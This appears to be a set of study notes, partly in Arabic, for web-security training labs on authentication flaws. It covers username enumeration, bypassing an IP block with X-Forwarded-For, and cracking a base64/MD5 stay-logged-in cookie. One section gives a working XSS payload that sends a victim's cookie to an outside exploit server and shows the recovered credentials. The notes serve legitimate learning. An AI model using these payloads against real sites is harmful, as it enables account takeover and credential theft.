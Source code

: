 # Authentication vulnerabilities
--------
```
✅ 1. Username enumeration via different responses
الثغرة: اختلاف الرسائل لما يكون اليوزر موجود أو غير موجود.

الاستغلال: جرّب يوزرات مختلفة وشوف الرسالة، تقدر تعرف لو اليوزر موجود.
```


--------

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```

--------

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

--------

```
✅ 6. Broken brute-force protection, IP block
الثغرة: حماية تسجيل الدخول بتمنع المحاولات المتكررة فقط من نفس الـ IP.

الاستغلال: استخدم X-Forwarded-For لتغيير عنوان الـ IP مع كل محاولة، وتجاوز الحماية.
```

---------

### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 




----

### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``




